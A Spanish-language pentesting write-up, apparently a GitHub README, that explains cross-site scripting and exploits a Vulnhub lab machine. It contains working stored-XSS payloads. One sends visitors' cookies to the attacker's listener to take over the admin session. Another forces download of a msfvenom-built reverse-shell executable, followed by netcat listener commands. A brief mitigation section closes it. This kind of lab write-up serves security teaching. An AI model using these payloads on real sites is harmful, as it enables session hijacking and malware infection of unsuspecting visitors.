 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=D1F700&width=435&lines=Ataque+XSS+y+secuestro+de+Cookies"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD XSS</ins></h3>

Cross-Site Scripting (XSS) es uno de los ataques más conocidos y explotados en entornos web, forma parte de las 10 vulnerabilidades más frecuentes en aplicaciones web desde 2014, algunas estadísticas afirman que el 70% de los sitios web tienen al menos una vulnerabilidad de XSS. Este ataque se aprovecha de fallas de seguridad de sitios y aplicaciones web ya que permite a un atacante cargar scripts maliciosos en un sitio web del lado del navegador para que un usuario desprevenido visite el sitio y sea infectado, tal como robar sus cookies (credenciales), realizar un defacement, cargar un código malicioso para obtener sesión de la máquina víctima o simplemente redirreccionar al usuario a otro sitio malicioso (phishing).

#### ¿Cómo se inyecta el script malicioso?

Normalmente el atacante lo que hace es buscar una entrada de datos en el sitio web, como puede ser un simple input de búsqueda o formularios/campos de comentarios, así como en la misma URL con un payload precargado.

### Tipos de ataques de Croo-Site Scripting

Existen tres tipos de vectores de XSS:

**XSS indirecto** (reflejado): Es el tipo de ataque más común, el atacante inyecta el script en el sitio web y esté es ejecutado cuando el usuario hace una petición al servidor web, es entonces cuando se carga el script y se muestra como un mensaje de error. Por el lado de la víctima, se mostrará dicho mensaje y que deberá hacer clic en el enlace que se le indique, ejecutando así el código malicioso y descargando el malware en su equipo.

**XSS directo** (persistente): En este caso, el ataque persistente infecta todas las respuestas HTTP a través de la carga maliciosa por parte del atacante, la diferencia con el reflejado es que en este no es necesario atraer a la víctima y redireccionarla con un enlace; lo único que tiene que hacer es esperar que está haga clic sobre algún campo de comentario y el hackeo se produce automático, o mejor dicho, de forma pasiva.

**XSS basado en DOM**: El tercer ataque intenta escabullirse lo más que pueda, volviéndola difícil de detectar si no se profundiza el código línea por línea. El payload del ataque se ejecuta en la modificación del entorno DOM en el navegador de la víctima utilizado por el código del lado del cliente original, es decir, la respuesta HTTP no cambia, pero el contenido de la página se ejecuta de manera diferente debido a las modificaciones maliciosas del script producido en el entorno DOM. Por ejemplo, al escribir código Javascript en la URL para ser tomado como parte del HTML.

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/img/ataqueXSS.png">
</p>

</br>

#### Cookies

Las cookies es un fragmento de información que es enviada por un sitio web y es almacenada en el navegador del usuario. Permite que los sitios web accedan a la información con fines estadísticos, ofrecer mejor experiencia y servicios útiles; tomando como muestra nuestra ubicación, idioma, intereses, entre otras para ofrecernos publicidad orientada. 

Desde antes ya existían las cookies solamente que no eran obligatorias mostrarlas, desde entonces cada vez que visitamos un sitio web, estas están obligadas a mostrar un mensaje de advertencia de uso de cookies y sus políticas. Las cookies son archivos temporales y su duración es temporal, por lo que podemos configurarlas, borrarlas o bloquearlas con extensiones gratuitas del navegador. Se vuelven peligrosas cuando no se suele avisar al usuario ya que pueden recopilar otros datos confidenciales.

<h1 align="center"></h1>

### DETECTAR DETECTAR VULNERABILIDAD XSS

Como muestra de ejemplo, descargué una máquina de vulnhub llamada "<a href="https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/">*PENTESTER LAB: XSS AND MYSQL*"</a> para demostrar como es posible aprovecharse de esta vulnerabilidad en un entorno controlado y legal.

![1](https://user-images.githubusercontent.com/75953873/187095720-5b148555-7d80-40b8-95b5-0d301acaf744.png)

Servidor web: `http://192.168.25.135`

Nmap contiene un script para detectar posibles vectores vulnerables a XSS.
```
nmap -p80 --script http-stored-xss.nse <TARGET>
```
![2](https://user-images.githubusercontent.com/75953873/187103485-4175545b-bcf0-49a0-9398-3ea6b2502d44.png)

También podemos hacer uso de herramientas como <a href="https://github.com/s0md3v/XSStrike">XSStrike</a>, <a href="https://github.com/pwn0sec/PwnXSS">PwnXSS</a>, <a href="https://github.com/epsylon/xsser">xsser</a>, entre otras existentes.

![3](https://user-images.githubusercontent.com/75953873/187104187-dc163b7c-8143-4ba5-be3a-cd23cf677eaf.png)

Pero el objetivo del post es detectar y explotar vulnerabilidad XSS de forma manual, y para eso, es preciso contar con básicos conocimientos de Javascript para inyectar código del lado del navegador y que esté sea leído y ejecutado. La ventaja de llevarlo manual es que no hace mucho ruido, por ejemplo el siguiente código emitirá una alerta y sabremos si es vulnerable a XSS o no:
```javascript

<script>alert("Vulnerable a XSS");</script>
```
![4](https://user-images.githubusercontent.com/75953873/187104531-69d35d55-df37-417c-9db1-cc1302f1155a.png)

Luego de hacer clic en "Submit" mostrará el mensaje de alerta.

![5](https://user-images.githubusercontent.com/75953873/187104588-eaaeca8f-ac55-4567-a058-fe27c894e108.png)

<h1 align="center"></h1>

### SECUESTRO DE COOKIES

Definitivamente la página es vulnerable a Cross-Site Scripting, cuando otro usuario intente hacer un comentario se ejecutará la alerta anterior, pero... -¿y ahora qué?- Bueno, aquí es dónde hay que exprimir todo el jugo a esta vulnerabilidad. Según la web hay un panel de administración así que intentaré robar las cookies de un usuario privilegiado e iniciar sesión, y para ello usaré el siguiente script:
```javascript

<script>document.write('<img src="http://192.168.1.9:8585/?'+document.cookie+' "/>");</script>
```
La dirección IP local es la de mi máquina (Kali) y el puerto 8585 es dónde se va a escribir y almacenar la cookie.

![6](https://user-images.githubusercontent.com/75953873/187104762-5a305614-8366-4d1e-90b3-64790bb5ebe9.png)

Ahora lo que haremos es poner a escucha el puerto 8585 y esperar a que un usuario inicie sesión para capturar la cookie. Para esto podemos usar Netcat o Python:
```
Netcat: nc -lvnp 8585
Python3: python3 -m http.server 8585
```
![7](https://user-images.githubusercontent.com/75953873/187104875-9ea540b9-0fd4-464f-b23e-c5c769cd215d.png)

Cookie: `u61dlmmqrsrbt612lmu4tmh0o5`

Después de capturar la cookie, descargan la extensión "<a href="https://addons.mozilla.org/es/firefox/addon/a-cookie-manager/">*Cookie Manager*</a>" del navegador Firefox y creamos una nueva cookie. En value pegan la cookie y en la URL el sitio web:

![8](https://user-images.githubusercontent.com/75953873/187105199-31eadfc0-724c-45c5-9722-90b0d6788a43.png)

Recargamos la página y le damos a "*Admin*" y como verán, iniciamos sesión en la cuenta del administrador sin necesidad de aportar ninguna credencial.

![9](https://user-images.githubusercontent.com/75953873/187105257-1168179e-7513-4ee1-b32e-aeb81d7db482.png)

<h1 align="center"></h1>

### OBTENER CONTROL DE LA MÁQUINA DEL USUARIO

Aquí es dónde viene lo peligroso, no solamente podemos hackear el sitio web, sino también cargar un software o código malicioso para que cualquier usuario que visite el sitio web descargue malware y se infecte. Para eso es necesario utilizar otro script más malicioso aún:

```javascript

<script>var software = document.createElement('a');
software.href='http://192.168.1.9/documento.exe';
software.download= '';
document.body.appendChild(software);
software.click();</script>
```
![10](https://user-images.githubusercontent.com/75953873/187105472-dfb6d4b4-1c4b-44a9-a4cb-d53f32d0b16f.png)

En el código anterior se crea una variable llamada "**software**" en dónde se le indica que redireccione al usuario a la página (nuestra IP local) y descargue el programa malicioso (*documento.exe*). Posteriormente hay que crear el archivo ejecutable malicioso con msfvenom, **LHOST** es su IP local y el **LPORT** es el puerto a escucha de conexiones, al final especifiqué la ruta en el directorio raíz del servidor local y finalmente el nombre del archivo:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai > /var/www/html/documento.exe
```
![11](https://user-images.githubusercontent.com/75953873/187105687-338198bd-24a1-4f44-9a48-328709eaca42.png)

Abrir servidor local HTTP:
```
sudo service apache2 start
```

Cualquier usuario que entre a la página web se le preguntará si desea descargar el documento y en caso de que alguien lo descargue y ejecute, deberíamos de tener una terminal a escucha de conexiones por el puerto 4444 con Netcat o Python:
```
Netcat: nc -lvnp 4444
Python3: python3 -m http.server 4444
```
![12](https://user-images.githubusercontent.com/75953873/187105838-e5554a83-9f27-4315-8d42-aad2eb07cd98.png)

Finalmente el usuario ejecuta el documento "legítimo" y obtendremos acceso al sistema operativo:

![13](https://user-images.githubusercontent.com/75953873/187105843-e32707fa-df18-40a9-a392-b5559fe94bbd.png)

<h1 align="center"></h1>

</br>

#### MITIGAR VULNERABILIDAD

Por parte del administrador del sitio web se le aconseja bloquear determinados caracteres que pueden ser utilizados para introducir código malicioso, validar y verificar todos los datos de entrada que el usuario pueda ingresar como texto; así como la longitud de la misma. Implementar un WAF que impida los ataques de XSS y monitoreé el tráfico HTTP, codificar los datos de salida para los usuarios. Por parte de los usuarios es aconsejable que mantengan antivirus y navegadores actualizados.


**Lista de payloads XSS:** https://github.com/payloadbox/xss-payload-list



#### ~R3LI4NT~
